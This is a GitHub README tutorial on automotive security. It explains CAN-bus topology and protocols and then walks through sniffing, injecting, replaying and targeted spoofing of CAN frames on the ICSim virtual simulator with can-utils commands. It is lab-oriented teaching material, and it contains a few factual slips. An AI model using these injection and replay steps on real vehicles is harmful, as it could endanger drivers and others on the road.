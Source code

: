 # Automotive-Security
On the New era of self driving technology automotive security has become one of the most interesting field for Security researchers. In this mordern world when you drive a car, you are driving a very powerfull computer that happens to have wheels and steering. Today there is no such component in a car that is not being moderated by a Computer. Hence the Risk of Being Exploited also increses.

## Overview

- Network Topology
- Can-Bus
  - it's Other Varients 
- SocetCan
  - Kayak
- ICSim
- Hacking CAN-Bus
  - Sniffer
  - CAN Sender 
  - Replay Attack
  - Targeted Node Attack
  
## Network Topology
- Vehicles nowadays have dedicated ECU for working of each of Components such as Tire Pressure Monitor Systems, Temprature and Infortainment Control, Shaders Controls, Instrument Clusters etc. The Major Network Topologies used in CAN Networks are:
  - Bus Topology
  <img src = "https://user-images.githubusercontent.com/100958162/221414549-41b24b76-31d8-41f8-b46b-cc07ad614091.png" width ="50%">
  
  - Ring Topology
  <img src = "https://user-images.githubusercontent.com/100958162/221414835-44a2237b-cd2a-4b77-8451-e7cdb0baa36e.png" width = "50%" height = "200" >

  - Star Topology
  <img src="https://user-images.githubusercontent.com/100958162/221414844-5f38e79e-910f-4bf4-9f74-00f41b093edd.png" width="50%" height ="50%">
  
  **However the Network paradigm used inside most of the Vehicles nowadays is CAN-Bus Topology**
  <img src ="https://user-images.githubusercontent.com/100958162/221415320-84b8877a-e154-46d2-a09f-0cde3f7dce1c.png" width ="60%" height="300">
  
## CAN-Bus
Controlled Area Network or CAN Network is like the Nervous system of a car responsible for it's entire working and intervehicular communication. Since CAN-Bus follows bus topology each nodes are interconnected to a single bus line making it possible in a two way communication between any two nodes at a time.A node brodcastes a CAN signal to all the other node, the corresponding node with the matching destination adress captures the data. 
A Serial CAN Communication 

<img src="https://user-images.githubusercontent.com/100958162/221421092-2629f478-e5b4-4e2f-ba47-4dfae6ec2f36.png" width="50%" height="300">
- Can Networks can be interfaced using OBD ports, Usually they are present below the steering column or hidden somewhere in the dash.
- There are mainly two types of CAN Data 
  - Standard CAN PAckets 
  - Extended CAN Packets

#### Apart from CAN there are also other Protocols that are made by diffrent Brands are used for handiling diffrent technical situations inside the Car
- ISO-TP Protocol
  - Used to send CAN data Packets Exceeding 8byte of the Standard CAN protocol
- CanOpen Protocol
  - Changed the 11byte arbiary Id to a combination of 4bit function cod and 7bit Node ID, therefore csn be used for Precise Data Transfer
- The GMLAN Bus 
  - Uses Single Wire Low Speed and Double Wire High Speed Bus
- The SAEJ1850 Protocol
  - Old and Slower than Can But Easy to Imlement 
- The Keyword Protocol
  - Communicates through KWP2000 line(pin 7), the data may contain upto 255 byte
- The Local InterConnect Network Protocol
  - Faster than Can since it doesn't contain any Identifier ID, a single master Controls all the Slave Nodes
- The MOst Protocol
  - Media Oriented System Transport designed for multimedia devices, usually used to acces any internal mic or output Displays in a IVT Console or any hardware components that has a media console
- The Flex Ray Bus
  - High Speed Data Transfer Upto 10Mbps, Uses twisted wires to communicate, but can also used dual-channel communication.
- Automotive Ethernet

## SocketCan 
SocketCan is a Linux Utility that combines/unifies all the CAN tools and it's diffrent interfaces to a uniques interface. It Can also be used to create tools for supporting CAN, that enables us to try diffrent Options on the Persisting Can Networks. SocketCan ties user to the Linux Netwroking Kernal making it possible for creating a sperate interface for unifying all the CAN Networks.
A detailed writeup on Installing and Configuring SocketCan is given on it's Official [Github](https://github.com/linux-can/socketcand)

### Kayak 
- [Kayak](http://kayak.2codeornot2code.org/) is a Java based GUI Tool Used for Monitoring and Diagnosing CAN Data using SocketCan Interfaces. Kayak links with Open Maps for mapping and can handle CAN defenitions. Since it is Java Based app it can run on any platform. Kayak Latest [Realese](https://github.com/dschanoeh/Kayak/releases/tag/untagged-3597039ad20ce9798a99) 

## ICSim
To practice CAN-Bus exploitation we will be using an ICSim package from Craig Smith. ICSim includes a dashboard with speedometer, door lock
indicators, turn signal indicators and a control panel. The control panel allows the user to interact with the simulated automobile network, applying
acceleration, brakes, controlling the door locks and turn signals.
### Installing ICSim

You will need:
* SDL2
* SDL2_Image
* can-utils

You can get can-utils from github or on Ubuntu you may run the follwoing

```
  sudo apt-get install libsdl2-dev libsdl2-image-dev can-utils  
```

You can run the following commands to setup a virtual can interface

```
  sudo modprobe can
  sudo modprobe vcan
  sudo ip link add dev vcan0 type vcan
  sudo ip link set up vcan0
```

If you type ifconfig vcan0 you should see a vcan0 interface. A setup_vcan.sh file has also been provided with this
repo.

**Usage**

Default operations:

Start the Instrument Cluster (IC) simulator:

```
  ./icsim vcan0
```

Then startup the controls

```
  ./controls vcan0
```
<table align="center">
<tr>
<td><img src="https://user-images.githubusercontent.com/100958162/221443075-da04eb22-d9a1-48c4-b414-d71bff62f33a.png" width ="100%" height="80%"></td>
<td><img src="https://user-images.githubusercontent.com/100958162/221443109-0245da80-a0f4-47a2-b0fc-8660d29b5fb3.png" width="50%" height="50%"></td>
</tr>
</table>

## Hacking CAN-Bus
- As previously stated, the CAN-Bus communication protocol utilizes a broadcasting mechanism to share data packets, allowing each node within the network to transmit messages to one another. In order to achieve this, a message is broadcasted to the entire server by one of the nodes, and the source node captures it while all other nodes disregard it.
- By exploiting this feature, an attacker within the network can potentially send data to any other node, creating a vulnerability that could lead to a fault injection attack. 

### Sniffing CAN Data
- Setup the Virtual CAN network by running the setup_vcan.sh file in ICSim
```sh
./setup_vcan.sh
```
- Initialise the Controller and the Vrtual Instrument Cluster and Try to Send Data using the Controller 
```sh
./icsim vcan0
./controller vcan0
```
- Sniffing the Data using cansniffer 
```cansniffer vcan0````
``` cansniffer -c vcan0```
- You can use the -c argument to shoe the changing bits in the data in a diffrent color
 
 The Sniffed Can Data Should Look like this:-
 ```sh
 81|ms | ID  | data ...     < vcan0 # l=20 h=100 t=500 slots=36 >
00015 | 039 | 00 2A                   .*
00009 | 095 | 80 00 07 F8 00 00 00 31 .......1
00009 | 133 | 00 00 00 00 98          .....
00009 | 136 | 00 02 00 00 00 00 00 1B ........
00009 | 13A | 00 00 00 00 00 00 00 0A ........
00009 | 13F | 00 00 00 05 00 00 00 00 ........
00009 | 143 | 6B 6B 00 C2             kk..
00009 | 158 | 00 00 00 00 00 00 00 0A ........
00009 | 161 | 00 00 05 50 01 08 00 0D ...P....
00009 | 164 | 00 00 C0 1A A8 00 00 22 ......."
00009 | 166 | D0 32 00 09             .2..
00009 | 17C | 00 00 00 00 10 00 00 03 ........
00008 | 183 | 00 00 00 0D 00 00 10 0E ........
00501 | 188 | 00 00 00 00             ....
00009 | 18E | 00 00 4D                ..M
00009 | 191 | 01 00 10 A1 41 00 38    ....A.8
00020 | 1A4 | 00 00 00 08 00 00 00 2F ......./
00019 | 1AA | 7F FF 00 00 00 00 68 2F ......h/
00019 | 1B0 | 00 0F 00 00 00 01 66    ......f
00020 | 1CF | 80 05 00 00 00 0F       ......
00020 | 1DC | 02 00 00 0C             ....
00040 | 21E | 03 E8 37 45 22 06 2F    ..7E"./
00015 | 244 | 00 00 00 01 6A          ....j
00039 | 294 | 04 0B 00 02 CF 5A 00 2C .....Z.,
00106 | 305 | 80 35                   .5
00100 | 309 | 00 00 00 00 00 00 00 B1 ........
00099 | 320 | 00 00 21                ..!
00099 | 324 | 74 65 00 00 00 00 0E 29 te.....)
00099 | 333 | 00 00 00 00 00 00 2D    ......-
00099 | 37C | FD 00 FD 00 09 7F 00 29 .......)
00300 | 405 | 00 00 04 00 00 00 00 1A ........
00300 | 40C | 03 31 33 38 34 39 00 0D .13849..
00300 | 428 | 01 04 00 00 52 1C 10    ....R..
00300 | 454 | 23 EF 09                #..
01260 | 5A1 | 96 00 00 00 00 00 62 10 ......b.
```
- Analysing the CAN Data Packet 

``` 188#000000``` 
- The above metnioned packet is used fo controlling the blinkers in the CAR, the arbitary ID of the packet is 188 denoting it stands for blinkers, the data is of 8 bit ```00 00 00 00```
- Now if the first byte in the data changes to **02** it denotes that the Left Blinker is turned On and if the first byte is 01 it denotes the left blinker is turned on.
- Any attakcer can get in the CAN-network using many attacking Vactors like OBD-II port or by attacing their IVT etc.

## Sending CAN Data/ Replay Attacks 
- CAN-utils provide an tool names cansend inorder to send CAN packets to the network 
- Below command send a data packets that turns on left Blinker
```sh
cansend vcan0 188#02000000
```
- This opens an lot of possible ways to attack the CAR after getting into the it's Network

## Replay Attack

Canplayer is a tool that is commonly used alongside CAN communication, enabling the transmission of various CAN packets to a single or multiple CAN ports. However, this functionality also introduces the possibility of a replay attack, in which an attacker captures and subsequently retransmits a previously recorded CAN packet in order to cause malicious behavior within the network. 
- Usage canplayer -I <infile> <interface_name>
```sh 
canplayer -I <infile> <interface_nmae>
```
- Infile Can be generated using ```candump``` command
```sh
candump -l vcan0
```
This Logs the data into a file. Which can be Later Replayed Using Canplayer
```sh
canplayer -I candump-2023-02-27_211403.log 
```
## Targeted Node attack
- In this attack we target a single node to be exploted.
- On Ananlysing the Data having the arbitary ID of the Target we identify the specific byte in Data which when changed alters the working of the Sensors or correspoding activity in the Car.
- On the Example below we are targeting the NODE that controls the Speed and RPM of the Cluster
  - The ID of the Dat is 244 and the last 3 bytes of data controls the actual speed in hex format.
  - I created a [script](https://github.com/Drupad-DeV/Automotive-Security/blob/main/speed.sh) that automates this whole process. 
  
Here is the Demo of the script being executed.

![github](https://user-images.githubusercontent.com/100958162/221551446-13dafbc0-f9cd-4f91-8909-fe7e0a8fe384.gif)
